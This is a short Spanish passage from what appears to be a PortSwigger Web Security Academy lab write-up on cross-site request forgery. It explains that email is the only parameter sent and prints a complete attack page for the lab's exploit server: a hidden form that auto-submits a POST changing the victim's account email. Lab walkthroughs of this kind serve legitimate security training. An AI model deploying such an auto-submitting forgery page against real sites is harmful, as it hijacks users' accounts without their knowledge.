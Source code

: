 <figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es el único parámetro que se envía. Vamos al **exploit server** y ahí creamos la plantilla HTML maliciosa.

```
<html>
    <body>
        <form action='https://0a4100b10448eae680482b6e00b50061.web-security-academy.net/my-account/change-email' method='POST'>
            <input name="email" value="hola@beafn28.com" type="hidden"/>  
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
